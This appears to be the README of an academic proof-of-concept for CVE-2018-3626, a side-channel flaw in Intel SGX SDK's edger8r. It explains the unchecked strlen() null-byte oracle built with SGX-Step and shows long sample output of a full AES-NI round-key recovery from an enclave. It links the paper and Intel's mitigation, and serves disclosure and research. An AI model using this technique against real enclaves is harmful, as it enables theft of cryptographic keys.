

# CVE-2018-3626: Building a deterministic `strlen()` null-byte oracle with SGX-Step

This directory contains the proof-of-concept exploit for CVE-2018-3626, which
discovered a subtle, non-constant-time string pointer validation logic in the
`edger8r` tool of the official Intel SGX SDK. In short, the vulnerability
allows to deterministically leak the _exact_ position of all 0x00 bytes in the
enclave address space. See our
[paper](https://jovanbulck.github.io/files/ccs19-tale.pdf) for a more detailed
description.

See [Intel's software development
guidance](https://www.intel.com/content/dam/develop/external/us/en/documents/180309-sgx-sdk-developer-guidance-edger8r.pdf)
and SA-00117 for the mitigation implemented by Intel in `edger8r`.


## Description of the vulnerability

The listing below shows the proxy function that used to be generated by the
vulnerable `edger8r` versions for the EDL specification: `public void
my_ecall([in,string] char *s)`:

```C
static sgx_status_t SGX_CDECL sgx_my_ecall ( void * pms )
{
    CHECK_REF_POINTER ( pms , sizeof ( ms_my_ecall_t ));
    ms_my_ecall_t * ms = SGX_CAST ( ms_my_ecall_t *, pms );
    char * _tmp_s = ms -> ms_s ;
    
    ⭑ size_t _len_s = _tmp_s ? strlen ( _tmp_s ) + 1 : 0;
    char * _in_s = NULL ;
    
    CHECK_UNIQUE_POINTER ( _tmp_s , _len_s );
    __builtin_ia32_lfence () ; // fence after pointer checks
    ...
```

The ecall expects a single string pointer argument. In order to verify that the
complete string is outside the enclave, the trusted edge routine _first_
computes the size of the argument buffer (through either `strlen()` or a
dedicated `sizefunc` in general), and only _thereafter_ checks whether the
entire buffer falls outside of the enclave. It is intended that the edge code
first determines the length in untrusted memory, but we made the crucial
observation that the `strlen()` invocation operates on an arbitrary,
_unchecked_ pointer, potentially pointing into enclave memory. Any pointer
poisoning attempts will subsequently be rejected, but the unintended
computation may have already leaked information through various side-channels.
This is most obviously the case for the common `[string]` EDL attribute, since
the amount of loop operations performed by `strlen()` reveals the number of
non-zero bytes following the specified in-enclave pointer.

## Building the `strlen()` null-byte oracle

We exploit the non-constant-time logic by deterministically counting the number
of instructions (loop iterations) in the vulnerable `strlen()` invocation by
single-stepping and looking at the PTE "accessed" bits to count the number of
accesses to the targeted data page. This is illustrated below:


## Example use-case: Breaking AES-NI with the `strlen()` null-byte oracle

The [paper](https://jovanbulck.github.io/files/ccs19-tale.pdf) describes a
practical exploit for full key recovery in AES-NI by recognizing zero bytes in
the last round. This is illustrated below:


### Sample output



```
[main.c] Creating enclave...
[pt.c] /dev/sgx-step opened!
Useless leakage 48 for 0
Useless leakage 48 for 1
Useless leakage 48 for 2
Useless leakage 48 for 3
Useless leakage 48 for 4
Useless leakage 48 for 5
Useless leakage 48 for 6
Useless leakage 48 for 7
Useless leakage 48 for 8
Useless leakage 48 for 9
Useless leakage 48 for 10
Useless leakage 48 for 11
Useless leakage 48 for 12
Useless leakage 48 for 13
Useless leakage 48 for 14
Useless leakage 48 for 15
Useless leakage 48 for 16
Useless leakage 48 for 17
Useless leakage 48 for 18
Useless leakage 48 for 19
Useless leakage 48 for 20
Useless leakage 48 for 21
Useless leakage 48 for 22
Useless leakage 48 for 23
Useless leakage 48 for 24
Useless leakage 48 for 25
Useful leak at 26 for key byte 0 = 13-> NEW!
Current rk10 = 13 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
Useless leakage 48 for 27
Useless leakage 48 for 28
Useless leakage 48 for 29
Useless leakage 48 for 30
Useless leakage 48 for 31
Useless leakage 48 for 32
Useless leakage 48 for 33
Useless leakage 48 for 34
Useless leakage 48 for 35
Useless leakage 48 for 36
Useless leakage 48 for 37
Useless leakage 48 for 38
Useless leakage 48 for 39
Useless leakage 48 for 40
Useless leakage 48 for 41
Useless leakage 48 for 42
Useless leakage 48 for 43
Useless leakage 48 for 44
Useful leak at 45 for key byte 13 = 2b-> NEW!
Current rk10 = 13 00 00 00 00 00 00 00 00 00 00 00 00 2b 00 00 
Useless leakage 48 for 46
Useless leakage 48 for 47
Useless leakage 48 for 48
Useless leakage 48 for 49
Useless leakage 48 for 50
Useless leakage 48 for 51
Useless leakage 48 for 52
Useful leak at 53 for key byte 0 = 13-> already known
Current rk10 = 13 00 00 00 00 00 00 00 00 00 00 00 00 2b 00 00 
Useless leakage 48 for 54
Useless leakage 48 for 55
Useless leakage 48 for 56
Useless leakage 48 for 57
Useless leakage 48 for 58
Useful leak at 59 for key byte 9 = 07-> NEW!
Current rk10 = 13 00 00 00 00 00 00 00 00 07 00 00 00 2b 00 00 
Useless leakage 48 for 60
Useless leakage 48 for 61
Useless leakage 48 for 62
Useless leakage 48 for 63
Useful leak at 64 for key byte 3 = 7f-> NEW!
Current rk10 = 13 00 00 7f 00 00 00 00 00 07 00 00 00 2b 00 00 
Useless leakage 48 for 65
Useless leakage 48 for 66
Useless leakage 48 for 67
Useful leak at 68 for key byte 8 = f3-> NEW!
Current rk10 = 13 00 00 7f 00 00 00 00 f3 07 00 00 00 2b 00 00 
Useless leakage 48 for 69
Useless leakage 48 for 70
Useless leakage 48 for 71
Useless leakage 48 for 72
Useless leakage 48 for 73
Useless leakage 48 for 74
Useless leakage 48 for 75
Useless leakage 48 for 76
Useless leakage 48 for 77
Useless leakage 48 for 78
Useless leakage 48 for 79
Useless leakage 48 for 80
Useless leakage 48 for 81
Useless leakage 48 for 82
Useless leakage 48 for 83
Useless leakage 48 for 84
Useful leak at 85 for key byte 14 = 30-> NEW!
Current rk10 = 13 00 00 7f 00 00 00 00 f3 07 00 00 00 2b 30 00 
Useless leakage 48 for 86
Useless leakage 48 for 87
Useless leakage 48 for 88
Useless leakage 48 for 89
Useless leakage 48 for 90
Useful leak at 91 for key byte 13 = 2b-> already known
Current rk10 = 13 00 00 7f 00 00 00 00 f3 07 00 00 00 2b 30 00 
Useless leakage 48 for 92
Useless leakage 48 for 93
Useless leakage 48 for 94
Useless leakage 48 for 95
Useless leakage 48 for 96
Useless leakage 48 for 97
Useless leakage 48 for 98
Useless leakage 48 for 99
Useless leakage 48 for 100
Useless leakage 48 for 101
Useless leakage 48 for 102
Useless leakage 48 for 103
Useless leakage 48 for 104
Useless leakage 48 for 105
Useless leakage 48 for 106
Useless leakage 48 for 107
Useless leakage 48 for 108
Useful leak at 109 for key byte 13 = 2b-> already known
Current rk10 = 13 00 00 7f 00 00 00 00 f3 07 00 00 00 2b 30 00 
Useless leakage 48 for 110
Useless leakage 48 for 111
Useless leakage 48 for 112
Useful leak at 113 for key byte 7 = 17-> NEW!
Current rk10 = 13 00 00 7f 00 00 00 17 f3 07 00 00 00 2b 30 00 
Useless leakage 48 for 114
Useless leakage 48 for 115
Useless leakage 48 for 116
Useless leakage 48 for 117
Useless leakage 48 for 118
Useless leakage 48 for 119
Useless leakage 48 for 120
Useless leakage 48 for 121
Useless leakage 48 for 122
Useless leakage 48 for 123
Useless leakage 48 for 124
Useless leakage 48 for 125
Useless leakage 48 for 126
Useless leakage 48 for 127
Useless leakage 48 for 128
Useless leakage 48 for 129
Useless leakage 48 for 130
Useless leakage 48 for 131
Useless leakage 48 for 132
Useless leakage 48 for 133
Useless leakage 48 for 134
Useless leakage 48 for 135
Useless leakage 48 for 136
Useless leakage 48 for 137
Useless leakage 48 for 138
Useless leakage 48 for 139
Useless leakage 48 for 140
Useless leakage 48 for 141
Useless leakage 48 for 142
Useless leakage 48 for 143
Useless leakage 48 for 144
Useless leakage 48 for 145
Useless leakage 48 for 146
Useless leakage 48 for 147
Useless leakage 48 for 148
Useless leakage 48 for 149
Useless leakage 48 for 150
Useless leakage 48 for 151
Useless leakage 48 for 152
Useless leakage 48 for 153
Useless leakage 48 for 154
Useless leakage 48 for 155
Useless leakage 48 for 156
Useless leakage 48 for 157
Useless leakage 48 for 158
Useless leakage 48 for 159
Useless leakage 48 for 160
Useless leakage 48 for 161
Useful leak at 162 for key byte 12 = 4d-> NEW!
Current rk10 = 13 00 00 7f 00 00 00 17 f3 07 00 00 4d 2b 30 00 
Useless leakage 48 for 163
Useless leakage 48 for 164
Useless leakage 48 for 165
Useless leakage 48 for 166
Useless leakage 48 for 167
Useless leakage 48 for 168
Useless leakage 48 for 169
Useless leakage 48 for 170
Useless leakage 48 for 171
Useless leakage 48 for 172
Useless leakage 48 for 173
Useless leakage 48 for 174
Useless leakage 48 for 175
Useless leakage 48 for 176
Useless leakage 48 for 177
Useless leakage 48 for 178
Useless leakage 48 for 179
Useless leakage 48 for 180
Useless leakage 48 for 181
Useless leakage 48 for 182
Useless leakage 48 for 183
Useless leakage 48 for 184
Useless leakage 48 for 185
Useless leakage 48 for 186
Useful leak at 187 for key byte 6 = 4a-> NEW!
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 00 4d 2b 30 00 
Useless leakage 48 for 188
Useless leakage 48 for 189
Useless leakage 48 for 190
Useless leakage 48 for 191
Useless leakage 48 for 192
Useless leakage 48 for 193
Useful leak at 194 for key byte 12 = 4d-> already known
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 00 4d 2b 30 00 
Useless leakage 48 for 195
Useless leakage 48 for 196
Useless leakage 48 for 197
Useless leakage 48 for 198
Useless leakage 48 for 199
Useless leakage 48 for 200
Useless leakage 48 for 201
Useless leakage 48 for 202
Useless leakage 48 for 203
Useful leak at 204 for key byte 8 = f3-> already known
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 00 4d 2b 30 00 
Useless leakage 48 for 205
Useless leakage 48 for 206
Useless leakage 48 for 207
Useless leakage 48 for 208
Useless leakage 48 for 209
Useless leakage 48 for 210
Useless leakage 48 for 211
Useless leakage 48 for 212
Useless leakage 48 for 213
Useless leakage 48 for 214
Useless leakage 48 for 215
Useless leakage 48 for 216
Useless leakage 48 for 217
Useless leakage 48 for 218
Useless leakage 48 for 219
Useless leakage 48 for 220
Useless leakage 48 for 221
Useful leak at 222 for key byte 11 = 8b-> NEW!
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 8b 4d 2b 30 00 
Useless leakage 48 for 223
Useless leakage 48 for 224
Useless leakage 48 for 225
Useless leakage 48 for 226
Useless leakage 48 for 227
Useless leakage 48 for 228
Useless leakage 48 for 229
Useless leakage 48 for 230
Useless leakage 48 for 231
Useless leakage 48 for 232
Useless leakage 48 for 233
Useless leakage 48 for 234
Useless leakage 48 for 235
Useless leakage 48 for 236
Useless leakage 48 for 237
Useless leakage 48 for 238
Useless leakage 48 for 239
Useless leakage 48 for 240
Useless leakage 48 for 241
Useless leakage 48 for 242
Useless leakage 48 for 243
Useless leakage 48 for 244
Useless leakage 48 for 245
Useless leakage 48 for 246
Useless leakage 48 for 247
Useless leakage 48 for 248
Useless leakage 48 for 249
Useless leakage 48 for 250
Useless leakage 48 for 251
Useless leakage 48 for 252
Useless leakage 48 for 253
Useless leakage 48 for 254
Useless leakage 48 for 255
Useless leakage 48 for 256
Useful leak at 257 for key byte 7 = 17-> already known
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 8b 4d 2b 30 00 
Useless leakage 48 for 258
Useless leakage 48 for 259
Useless leakage 48 for 260
Useless leakage 48 for 261
Useless leakage 48 for 262
Useless leakage 48 for 263
Useless leakage 48 for 264
Useless leakage 48 for 265
Useless leakage 48 for 266
Useless leakage 48 for 267
Useless leakage 48 for 268
Useless leakage 48 for 269
Useless leakage 48 for 270
Useless leakage 48 for 271
Useless leakage 48 for 272
Useless leakage 48 for 273
Useless leakage 48 for 274
Useless leakage 48 for 275
Useless leakage 48 for 276
Useless leakage 48 for 277
Useless leakage 48 for 278
Useless leakage 48 for 279
Useless leakage 48 for 280
Useless leakage 48 for 281
Useless leakage 48 for 282
Useless leakage 48 for 283
Useless leakage 48 for 284
Useless leakage 48 for 285
Useless leakage 48 for 286
Useless leakage 48 for 287
Useless leakage 48 for 288
Useless leakage 48 for 289
Useless leakage 48 for 290
Useless leakage 48 for 291
Useless leakage 48 for 292
Useless leakage 48 for 293
Useless leakage 48 for 294
Useful leak at 295 for key byte 15 = c5-> NEW!
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 8b 4d 2b 30 c5 
Useless leakage 48 for 296
Useless leakage 48 for 297
Useless leakage 48 for 298
Useless leakage 48 for 299
Useless leakage 48 for 300
Useless leakage 48 for 301
Useless leakage 48 for 302
Useless leakage 48 for 303
Useless leakage 48 for 304
Useless leakage 48 for 305
Useless leakage 48 for 306
Useless leakage 48 for 307
Useless leakage 48 for 308
Useless leakage 48 for 309
Useless leakage 48 for 310
Useless leakage 48 for 311
Useless leakage 48 for 312
Useless leakage 48 for 313
Useless leakage 48 for 314
Useless leakage 48 for 315
Useless leakage 48 for 316
Useless leakage 48 for 317
Useless leakage 48 for 318
Useless leakage 48 for 319
Useless leakage 48 for 320
Useless leakage 48 for 321
Useless leakage 48 for 322
Useless leakage 48 for 323
Useless leakage 48 for 324
Useless leakage 48 for 325
Useless leakage 48 for 326
Useless leakage 48 for 327
Useful leak at 328 for key byte 13 = 2b-> already known
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 8b 4d 2b 30 c5 
Useful leak at 329 for key byte 14 = 30-> already known
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 00 8b 4d 2b 30 c5 
Useless leakage 48 for 330
Useless leakage 48 for 331
Useless leakage 48 for 332
Useless leakage 48 for 333
Useless leakage 48 for 334
Useless leakage 48 for 335
Useless leakage 48 for 336
Useless leakage 48 for 337
Useless leakage 48 for 338
Useless leakage 48 for 339
Useless leakage 48 for 340
Useless leakage 48 for 341
Useless leakage 48 for 342
Useless leakage 48 for 343
Useless leakage 48 for 344
Useless leakage 48 for 345
Useless leakage 48 for 346
Useless leakage 48 for 347
Useless leakage 48 for 348
Useless leakage 48 for 349
Useless leakage 48 for 350
Useless leakage 48 for 351
Useless leakage 48 for 352
Useful leak at 353 for key byte 10 = a7-> NEW!
Current rk10 = 13 00 00 7f 00 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 354
Useless leakage 48 for 355
Useless leakage 48 for 356
Useless leakage 48 for 357
Useless leakage 48 for 358
Useless leakage 48 for 359
Useless leakage 48 for 360
Useless leakage 48 for 361
Useless leakage 48 for 362
Useless leakage 48 for 363
Useless leakage 48 for 364
Useless leakage 48 for 365
Useless leakage 48 for 366
Useless leakage 48 for 367
Useless leakage 48 for 368
Useless leakage 48 for 369
Useless leakage 48 for 370
Useless leakage 48 for 371
Useless leakage 48 for 372
Useless leakage 48 for 373
Useless leakage 48 for 374
Useless leakage 48 for 375
Useless leakage 48 for 376
Useless leakage 48 for 377
Useless leakage 48 for 378
Useless leakage 48 for 379
Useless leakage 48 for 380
Useless leakage 48 for 381
Useless leakage 48 for 382
Useless leakage 48 for 383
Useless leakage 48 for 384
Useless leakage 48 for 385
Useless leakage 48 for 386
Useless leakage 48 for 387
Useless leakage 48 for 388
Useless leakage 48 for 389
Useless leakage 48 for 390
Useful leak at 391 for key byte 2 = 1d-> NEW!
Current rk10 = 13 00 1d 7f 00 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 392
Useless leakage 48 for 393
Useless leakage 48 for 394
Useful leak at 395 for key byte 4 = e3-> NEW!
Current rk10 = 13 00 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 396
Useless leakage 48 for 397
Useless leakage 48 for 398
Useless leakage 48 for 399
Useless leakage 48 for 400
Useless leakage 48 for 401
Useless leakage 48 for 402
Useful leak at 403 for key byte 10 = a7-> already known
Current rk10 = 13 00 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 404
Useless leakage 48 for 405
Useless leakage 48 for 406
Useless leakage 48 for 407
Useless leakage 48 for 408
Useless leakage 48 for 409
Useless leakage 48 for 410
Useless leakage 48 for 411
Useless leakage 48 for 412
Useless leakage 48 for 413
Useless leakage 48 for 414
Useless leakage 48 for 415
Useless leakage 48 for 416
Useless leakage 48 for 417
Useless leakage 48 for 418
Useless leakage 48 for 419
Useless leakage 48 for 420
Useless leakage 48 for 421
Useless leakage 48 for 422
Useless leakage 48 for 423
Useless leakage 48 for 424
Useless leakage 48 for 425
Useless leakage 48 for 426
Useless leakage 48 for 427
Useless leakage 48 for 428
Useless leakage 48 for 429
Useless leakage 48 for 430
Useless leakage 48 for 431
Useless leakage 48 for 432
Useless leakage 48 for 433
Useless leakage 48 for 434
Useless leakage 48 for 435
Useless leakage 48 for 436
Useless leakage 48 for 437
Useless leakage 48 for 438
Useless leakage 48 for 439
Useful leak at 440 for key byte 1 = 11-> NEW!
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useful leak at 441 for key byte 1 = 11-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 442
Useless leakage 48 for 443
Useless leakage 48 for 444
Useless leakage 48 for 445
Useless leakage 48 for 446
Useless leakage 48 for 447
Useless leakage 48 for 448
Useless leakage 48 for 449
Useless leakage 48 for 450
Useless leakage 48 for 451
Useless leakage 48 for 452
Useless leakage 48 for 453
Useless leakage 48 for 454
Useless leakage 48 for 455
Useless leakage 48 for 456
Useful leak at 457 for key byte 2 = 1d-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 458
Useless leakage 48 for 459
Useful leak at 460 for key byte 14 = 30-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 461
Useless leakage 48 for 462
Useless leakage 48 for 463
Useless leakage 48 for 464
Useless leakage 48 for 465
Useless leakage 48 for 466
Useless leakage 48 for 467
Useless leakage 48 for 468
Useless leakage 48 for 469
Useless leakage 48 for 470
Useless leakage 48 for 471
Useless leakage 48 for 472
Useless leakage 48 for 473
Useless leakage 48 for 474
Useless leakage 48 for 475
Useless leakage 48 for 476
Useless leakage 48 for 477
Useless leakage 48 for 478
Useful leak at 479 for key byte 15 = c5-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 480
Useless leakage 48 for 481
Useless leakage 48 for 482
Useless leakage 48 for 483
Useless leakage 48 for 484
Useless leakage 48 for 485
Useless leakage 48 for 486
Useless leakage 48 for 487
Useless leakage 48 for 488
Useless leakage 48 for 489
Useless leakage 48 for 490
Useless leakage 48 for 491
Useless leakage 48 for 492
Useless leakage 48 for 493
Useless leakage 48 for 494
Useless leakage 48 for 495
Useful leak at 496 for key byte 15 = c5-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 497
Useless leakage 48 for 498
Useless leakage 48 for 499
Useless leakage 48 for 500
Useless leakage 48 for 501
Useless leakage 48 for 502
Useless leakage 48 for 503
Useless leakage 48 for 504
Useless leakage 48 for 505
Useless leakage 48 for 506
Useless leakage 48 for 507
Useless leakage 48 for 508
Useless leakage 48 for 509
Useless leakage 48 for 510
Useless leakage 48 for 511
Useless leakage 48 for 512
Useless leakage 48 for 513
Useless leakage 48 for 514
Useless leakage 48 for 515
Useless leakage 48 for 516
Useless leakage 48 for 517
Useless leakage 48 for 518
Useless leakage 48 for 519
Useful leak at 520 for key byte 15 = c5-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useful leak at 521 for key byte 6 = 4a-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 522
Useless leakage 48 for 523
Useless leakage 48 for 524
Useless leakage 48 for 525
Useless leakage 48 for 526
Useless leakage 48 for 527
Useless leakage 48 for 528
Useless leakage 48 for 529
Useful leak at 530 for key byte 10 = a7-> already known
Current rk10 = 13 11 1d 7f e3 00 4a 17 f3 07 a7 8b 4d 2b 30 c5 
Useless leakage 48 for 531
Useless leakage 48 for 532
Useless leakage 48 for 533
Useless leakage 48 for 534
Useless leakage 48 for 535
Useless leakage 48 for 536
Useless leakage 48 for 537
Useless leakage 48 for 538
Useless leakage 48 for 539
Useless leakage 48 for 540
Useless leakage 48 for 541
Useful leak at 542 for key byte 5 = 94-> NEW!
All round key bytes found after 543 plaintexts
Current rk10 = 13 11 1d 7f e3 94 4a 17 f3 07 a7 8b 4d 2b 30 c5 
```
